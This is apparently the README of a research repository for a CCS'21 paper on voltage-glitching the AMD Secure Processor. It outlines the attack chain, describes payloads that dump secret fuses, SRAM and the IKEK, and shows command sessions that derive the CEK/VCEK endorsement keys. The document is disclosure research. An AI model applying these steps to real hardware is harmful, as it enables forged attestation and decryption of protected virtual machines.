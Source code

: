 # Glitching the AMD Secure Processor

This repository contains supplemental data to our paper *One Glitch to Rule Them All: Fault Injection Attacks Against AMD's Secure Encrypted Virtualization*.
The paper will be presented at the [*28th ACM Conference on Computer and Communications Security*](https://sigsac.org/ccs/CCS2021/) (CCS'21) in Seoul.
You can find a pre-print version of the paper here: [https://arxiv.org/abs/2108.04575](https://arxiv.org/abs/2108.04575)

## TL;DR

The AMD Secure Processor (AMD-SP, formerly known as PSP) is susceptible to voltage fault injection attacks. Using our fault injection attack, we are able to execute custom code on secure processors embedded in Ryzen and Epyc CPUs of the AMD Zen series (Zen1, Zen2 and Zen3). In our paper we show how this affects the security guarantees of AMD's Secure Encrypted Virtualization technology (SEV). Furthermore, we show how an attacker can mount attacks against SEV protected virtual machines without physical access to the target host by leveraging previously extracted endorsement keys (CEK/VCEK).

## Contents

This repository contains the following components:

 - [x] Voltage Fault Injection Code
    - [x] Firmware for the Teensy µController for SVI bus packet injection
    - [x] Host code to control the Teensy
 - [x] Secrets Extraction (Payloads)
    - [x] Payload for dumping the first-stage ROM bootloader
    - [x] Payloads for dumping CCPv5 Local Storage Buffers and RAM
    - [x] Python code for extracting IDs, IKEK, CEK and VCEK-Secrets
    - [x] Python code for signing/decryption using the secrets
    - [x] Python code for downloading CEK/VCEK certificates and checking the signatures
  - [x] Proof of successful key extraction
    - [x] IDs and Certificates of the pwned CPUs Keys and the signed paper title

## SEV Background

AMD's Secure Encrypted Virtualization technology aims to protect virtual machines from higher-privileged entities such as cloud administrators or compromised hypervisors.
The technology is best explained in AMD's white papers:

[SEV white paper](https://developer.amd.com/wordpress/media/2013/12/AMD_Memory_Encryption_Whitepaper_v7-Public.pdf)  
[SEV Encrypted State (SEV-ES) white paper](https://www.amd.com/system/files/TechDocs/Protecting%20VM%20Register%20State%20with%20SEV-ES.pdf)  
[SEV Secure Nested Paging (SEV-SNP) white paper](https://www.amd.com/system/files/TechDocs/SEV-SNP-strengthening-vm-isolation-with-integrity-protection-and-more.pdf)  

More SEV related files and documentation can be found [here](https://developer.amd.com/sev/)


## Attack

The goal of our attack is to execute custom code on the AMD Secure Processor (AMD-SP), previously known as Platform Security Processor (PSP). The AMD-SP is the root-of-trust of AMD CPUs and hosts the firmware that implements the SEV API. 

You can find more information about the AMD-SP in our previous talks:
[CCC 36c3](https://media.ccc.de/v/36c3-10942-uncover_understand_own_-_regaining_control_over_your_amd_cpu)
[Blackhat 2020](https://www.youtube.com/watch?v=KR8bPLj4nKE)

To execute custom code on the AMD-SP, we introduce a voltage glitch in the AMD-SP's ROM bootloader. The ROM bootloader is the first component that executes on an AMD CPU. It does some basic system initialization and then loads a public key from SPI attached flash memory. The public key is validated by comparing its hash against a fixed hash stored inside the SP's ROM. This public key is used to validate the signature of several other firmware components that are loaded from the SPI flash.
The first executable component that is loaded from the SPI flash is the PSP_FW_BOOT_LOADER. This component is executed in the privileged SVC mode of the SP and acts as a small operating system for the SP.
Our goal is to glitch the AMD-SPs validation of the public key, so that we are able to use our own public key to sign the AMD-SP's firmware components.

The basic steps required for our attack are:

1. Prepare SPI flash image with payload
   - Replace original public key with our own public key
   - Replace the PSP_FW_BOOT_LOADER with our payload
   - Re-sign the PSP_FW_BOOT_LOADER with using our own public key
   - Flash the image on the target's SPI flash
2. Glitch the target CPU
   - Determine glitching parameters
   - Run glitch attempts until successful
3. Exfiltrate Data using the SPI bus
   - Write the data on the memory-mapped SPI flash
   - Use a Logic Analyzer to gather the data written to the SPI bus
   - Alternatively the UART interface could be used to exfiltrate data

We descibe the necessary hardware, provide the necessary software and describe the whole process in more detail
[here: attack-code/README.md](attack-code/README.md).

## Payloads

We provided four payloads for the voltage glitching attacks.
They can be found in the [payloads](./payloads) folder and compiled using the `arm-none-eabi-*` toolchain.
All of the payloads run on a Epyc-Zen3 target (some constants need to be changed for other targets).

The **hello-world** payload is a simple testing payload that helps debugging/confirming code execution on the amd-sp.

The **get-secret-fuses** payload reads the secret fuses and writes them to the SPI bus.
Once they have been extracted (e.g. using a logic analyzer) they can be converted into the CEK as follows:
```
$ ./secret_fuses_to_cek.py secret_fuses.bin cek.pem
secret fuses:
  *   = <xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx>
cek:
  id  = ded5992ef2ed25e5325748671b6114e5cfac801d7420b3d289c833db2bf755ea735bbe1092e5cd33bc4e31af1a2880ad8d1fbf640c8f80dc02ba464e6c6c9395
  d   = <xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx>
  p_x = 35a2c156dd87307f5b0640948b244875deba4896e13065caab8325238b44a4b5be91a310a69a11b17be93e1aa942b947
  p_y = 724b19e07caf3c4e08c07b382700b58375fdc6cfe6b4aafb640835505a1bf14cd485695d5c006300678ab8b863a620b1
$ openssl ec -noout -text -in cek.pem 
read EC key
Private-Key: (384 bit)
priv:
    xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:
    xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:
    xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:
    xx:xx:xx
pub:
    04:47:b9:42:a9:1a:3e:e9:7b:b1:11:9a:a6:10:a3:
    91:be:b5:a4:44:8b:23:25:83:ab:ca:65:30:e1:96:
    48:ba:de:75:48:24:8b:94:40:06:5b:7f:30:87:dd:
    56:c1:a2:35:b1:20:a6:63:b8:b8:8a:67:00:63:00:
    5c:5d:69:85:d4:4c:f1:1b:5a:50:35:08:64:fb:aa:
    b4:e6:cf:c6:fd:75:83:b5:00:27:38:7b:c0:08:4e:
    3c:af:7c:e0:19:4b:72
ASN1 OID: secp384r1
NIST CURVE: P-384
```

The **dump-sram** payload dumps the sram state just after the execution of the rom-bootloader.
Since this includes the bootloader VCEK secrets (and since `./make_epyc3_pl.py` sets the bootloader SVN to 255) we can extract these secrets and build all VCEKs:
```
$ xxd sram_dump.bin
...
0004efe0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0004eff0: xxxx xxxx xxxx xxxx xxxx xxxx xxxx xxxx  xxxxxxxxxxxxxxxx
0004f000: xxxx xxxx xxxx xxxx xxxx xxxx xxxx xxxx  xxxxxxxxxxxxxxxx
0004f010: xxxx xxxx xxxx xxxx xxxx xxxx xxxx xxxx  xxxxxxxxxxxxxxxx
0004f020: xxxx xxxx xxxx xxxx xxxx xxxx xxxx xxxx  xxxxxxxxxxxxxxxx
0004f030: xxxx xxxx xxxx xxxx xxxx xxxx xxxx xxxx  xxxxxxxxxxxxxxxx
0004f040: xxxx xxxx xxxx xxxx xxxx xxxx xxxx xxxx  xxxxxxxxxxxxxxxx
0004f050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
...
$ dd if=sram_dump.bin bs=1 skip=323568 count=96 of=vcek_secrets_bl_ver_255.bin
96+0 records in
96+0 records out
96 bytes copied, 0,00140416 s, 68,4 kB/s
$ ./bl_seed_to_vcek.py vcek_secrets_bl_255.bin 255 1 2 3 4 vcek_01020304.pem
vcek [bl=0x1, tee=0x2, snp=0x3, ucode=0x4]:
  d   = <xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx>
  p_x = a25a75344367103fbeaaa6d14d8aa3d5046e7b857be95df18850f63045cf4a48157b9dc90e48c386b241f60e53937913
  p_y = 974e1042d632951193d6fb81586474f9003625a74e304d2fc53007754f60f70d19bb8c6946a7b0851b8b433af4ddefb6
$ openssl ec -noout -text -in cek.pem
read EC key
Private-Key: (384 bit)
priv:
    xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:
    xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:
    xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:xx:
    xx:xx:xx
pub:
    04:13:79:93:53:0e:f6:41:b2:86:c3:48:0e:c9:9d:
    7b:15:48:4a:cf:45:30:f6:50:88:f1:5d:e9:7b:85:
    7b:6e:04:d5:a3:8a:4d:d1:a6:aa:be:3f:10:67:43:
    34:75:5a:a2:b6:ef:dd:f4:3a:43:8b:1b:85:b0:a7:
    46:69:8c:bb:19:0d:f7:60:4f:75:07:30:c5:2f:4d:
    30:4e:a7:25:36:00:f9:74:64:58:81:fb:d6:93:11:
    95:32:d6:42:10:4e:97
ASN1 OID: secp384r1
NIST CURVE: P-384
```

The **decrypt-ikek** payload loads the IKEK from a BIOS image, decrypts it and dumps it onto the SPI bus for exfiltration.
To use it we extract an entry from a firmware image and confirm that it is encrypted (in this case using strings):
```
$ psptool -X -d <dir nr> -e <entry nr> -o /tmp/entry-enc <path-to-fw-image>
$ strings -n 20 /tmp/entry
$
```
Then we use the provided python script and extracted ikek to decrypt the entry and confirm our decryption:
```
$ ./decrypt_firmware_entry.py <ikek binary> /tmp/entry /tmp/entry-dec
$ strings -n 100 /tmp/entry-dec 
~}|{zyxwvvutsrqqponnmllkjjihhgffeddccbaa``__^^]]\\[[ZZYYXXWWVVUUUTTSSRRRQQPPPOOONNMMMLLLKKKJJJIIIHHHGGGGFFFEEEDDDDCCCCBBBBAAA
$
```

## Proof of Key extraction

To check our proof of key extraction please read [attack-proof.md](attack-proof/attack-proof.md).

### Proof-of-concept Attack

Using the extracted (V)CEKs, an attacker can fake SEV's attestation reports or pose as a valid migration target of SEV protected VM's.
This allows an attacker to fully decrypt a VM's memory.

You can find a proof-of-concept implementation of the migration attack [here](https://github.com/RobertBuhren/amd-sev-migration-attack).

Using our glitching attack we are able to extract valid (V)CEKs for AMD Epyc Naples, Rome and Milan CPUs, enabling this attack on all AMD CPUs that currently support SEV.

